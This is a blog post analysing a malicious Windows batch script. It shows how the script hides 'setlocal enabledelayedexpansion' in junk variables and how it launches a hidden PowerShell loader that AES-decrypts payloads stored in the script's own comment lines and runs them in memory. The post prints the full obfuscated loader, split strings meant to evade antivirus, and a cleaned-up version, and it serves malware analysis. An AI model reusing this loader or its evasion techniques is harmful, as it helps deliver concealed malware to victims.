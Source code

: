 ```yaml
---
layout: post
title: Batch Script Obfuscation
subtitle: Obfuscation techniques seen in the wild
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/bat.png
share-img: /assets/img/bat.png
tags: []
---
```


Earlier this week, I was investigating a batch script that made its way onto someone's system. I enjoy deobfuscating files, so here are some things specific to (but maybe not exclusive to) batch file obfuscation that I saw.

Below is the first part of the batch file. Essentially what was going on was there was a bunch of junk data that was inserted between some variables / text. I replaced the real junk to make it more visible, but the original junk data was a lot more randomized and less apparent that it repeated. 
~~~
@echo off
set s=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%t%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%c%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set e=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%b%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set d=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%l%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%y%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%d%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set x=%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%e%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%x%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%p%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%a%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%s%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%i%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%o%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%n%asdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdfasdf%
set rah=%s% %e%%d%%x%
call %rah%
~~~

From there, if we trim it down, we get this

~~~
@echo off
set s=setlocal
set e=enab
set d=ledelayed
set x=expansion
set rah=s edx
call rah
~~~

Which further evaluates to

~~~
@echo off
setlocal enabledelayedexpansion
~~~

This was the first part of the obfuscation.


From here, it is obvious from the last line that there is something going on with powershell. If you also look at the top a bit, we also see **-noprofile -windowstyle hidden -ep bypass -command**, which is also very common in malicious powershell operations. Something else that is going on here, which is a key clue, is **[System.Security.Cryptography.Aes]::Create()**, which is a .NET constructor for creating AES-encrypted objects. So, the next section likely decrypts and runs a payload, but lets dive deeper first. Lastly, we some concatenated strings, aimed at evading static AV detection (**'S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t'**)

The dollar sign, **$**, denotes a variable in powershell. We see many more gibberish strings immediately preceded by the dollar signs, which means that the variables have been obfuscated. In this example, it is not through encoding or encryption, but rather their intention is obfuscated. It would be trivial for a computer to execute this code, but tough for a human to understand what is going on. From here, it is, at least in my experience, a game of guessing and renaming variables to what you think they might be. If you have no idea where to begin at guessing though, no problem! I find it good to just name things whatever, like var_1, var_2, and so on.

~~~
set "zsexdrzsexdrzsexdrzsexdrzsexdr=set"
set "bhunjibhunjibhunjibhunjibhunji=!zsexdrzsexdrzsexdrzsexdrzsexdr!"
!bhunjibhunjibhunjibhunjibhunji! "biEKBNtmaExERuKwsVMLBRoxNfgdBOZZfTeqnDLUczJcuRjyEOeuFpygzSomIwMJHSwaSolxpsaaYOpbrOAoyGSBUXFzabmcAHQJTBmedCbxRtefrpoVznryBpCfsoZqPRtcTGrFKZCPftRwdYOascUUJKqkhXdFsgRIQhdfqGYthaiRzKcwUswHzkjXLHmIsJQolrhgvItOJteTIbStFwpjudZXnyNKuHNmURTsdITjBRKyhxwzrHpgWLffJkOoRVGuSmreBkaVDlUziIhbNFFbbFylVuDeDwuwqThpzjeXIrMuXaAmorLmsWnaBQoFiImpGRAJVwtzRXXoFZcjaLMPMboQCcMSJWVFGsuZkAXbhxnGN=-noprofile -windowstyle hidden -ep bypass -command $unceunceunceunceunceunceunec = '%~f0';	$qwertyqwertyqwertyqwertyqwerty=[System.Security.Cryptography.Aes]::Create();		$qwertyqwertyqwertyqwertyqwerty.IV=[System.Convert]::FromBase64String('1JvmIAo8jn8Quu7BilO+6w==');	$qwertyqwertyqwertyqwertyqwerty.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;	$qwertyqwertyqwertyqwertyqwerty.Key=[System.Convert]::FromBase64String('9PVEPxhrf9bAPo5nbYothLVgwj9qp8wjNqedVM0sNJg=');		$qwertyqwertyqwertyqwertyqwerty.Mode=[System.Security.Cryptography.CipherMode]::CBC;function decrypt_function($param_var){	$asdfgasdfgasdfgasdfgasdfg=$qwertyqwertyqwertyqwertyqwerty.CreateDecryptor();	$yuiopyuiopyuiopyuiopyuiop=$asdfgasdfgasdfgasdfgasdfg.TransformFinalBlock($param_var, 0, $param_var.Length);	$yuiopyuiopyuiopyuiopyuiop;}function execute_function($param_var,$param2_var){	$ghjklghjklghjklghjklghjkl=[System.Reflection.Assembly]::Load([byte[]]$param_var);	$zxcvbzxcvbzxcvbzxcvbzxcvb=$ghjklghjklghjklghjklghjkl.EntryPoint;	$zxcvbzxcvbzxcvbzxcvbzxcvb.Invoke($null, $param2_var);}$host.UI.RawUI.WindowTitle = $unceunceunceunceunceunceunec;$njimkonjimkonjimkonjimkonjimko = [type]::GetType('Syst'+'e'+'m'+'.I'+'O.F'+'i'+'l'+'e');$cvbnmcvbnmcvbnmcvbnmcvbnm = [type]::GetType('S'+'ys'+'t'+'e'+'m'+'.E'+'nv'+'i'+'ro'+'n'+'me'+'n'+'t');$plokmplokmplokmplokmplokm = $njimkonjimkonjimkonjimkonjimko::ReadAllText($unceunceunceunceunceunceunec);$ytrewytrewytrewytrewytrew = $cvbnmcvbnmcvbnmcvbnmcvbnm::NewLine;$poiuypoiuypoiuypoiuypoiuy = $plokmplokmplokmplokmplokm.Split($ytrewytrewytrewytrewytrew);$jhgfdjhgfdjhgfdjhgfdjhgfd = $poiuypoiuypoiuypoiuypoiuy;foreach ($vgybhuvgybhuvgybhuvgybhuvgybhu in $jhgfdjhgfdjhgfdjhgfdjhgfd) {	if ($vgybhuvgybhuvgybhuvgybhuvgybhu.StartsWith(':: '))	{		$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx=$vgybhuvgybhuvgybhuvgybhuvgybhu.Substring(3);		break;	}}$payloads_var=[string[]]$tfcrdxtfcrdxtfcrdxtfcrdxtfcrdx.Split('\');$payload1_var= decrypt_function ([Convert]::FromBase64String($payloads_var[0]));$payload2_var= decrypt_function ([Convert]::FromBase64String($payloads_var[1]));execute_function $payload1_var $null;execute_function $payload2_var (,[string[]] ('%*'));"
!bhunjibhunjibhunjibhunjibhunji! "ckgMzaltivLxuGAeCevHMWWHEdYyKliYXvbInLefrxEmnhjvzletlABeTtxDfCRNHZEDcZpGxHioaPbbHebBYQXCZdICsBNzMFcpjRABMdjjcBhBWPfScDsKoNuCAcJGRlPirXRNXderAmpuF="%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~

After some trial and error, and with the help of ChatGPT to guess some of the names, this is what i landed on

~~~
!delayed_var_2! "profile_var=-noprofile -windowstyle hidden -ep bypass -command $command = '%~f0';
$aesEncryptor=[System.Security.Cryptography.Aes]::Create();
$aesEncryptor.IV=[System.Convert]::FromBase64String('QUVTLUlW');
$aesEncryptor.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
$aesEncryptor.Key=[System.Convert]::FromBase64String('QUVTLUtleQ==');
$aesEncryptor.Mode=[System.Security.Cryptography.CipherMode]::CBC;
function decrypt_function($param_var)
  {
  $decryptor = $aesEncryptor.CreateDecryptor();
  $decrypted_bytes = $decryptor.TransformFinalBlock($param_var, 0, $param_var.Length);
  $decrypted_bytes;
  }
function execute_function($param_var, $param2_var)
  {
  $assembly = [System.Reflection.Assembly]::Load([byte[]]$param_var);
  $entry_point = $assembly.EntryPoint;
  $entry_point.Invoke($null, $param2_var);
  }
$host.UI.RawUI.WindowTitle = $payloadFilePath;
$fileType = [type]::GetType('System.IO.File');
$envType = [type]::GetType('System.Environment');
$payloadFileContents = $fileType::ReadAllText($payloadFilePath);
$newline = $envType::NewLine;
$lines = $payloadFileContents.Split($newline);
$lineArray = $lines;
foreach ($line in $lineArray)
  {
  if ($line.StartsWith(':: '))
    {
    $payloadDataEncoded = $line.Substring(3);
    break;
    }
  }
!delayed_var_2! "unknown"%systemdrive%\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "
~~~

From here on out, i got a decryptor made from ChatGPT (Cyberchef's AES decrypt wasn't working well since it resulted in binary data).
This decryptor can be found here: https://github.com/khaansec/Black-Hat-Python/blob/cd6412b73bc699ac49acde2369c3f808c9d1f899/decrypt_aes_payload.py
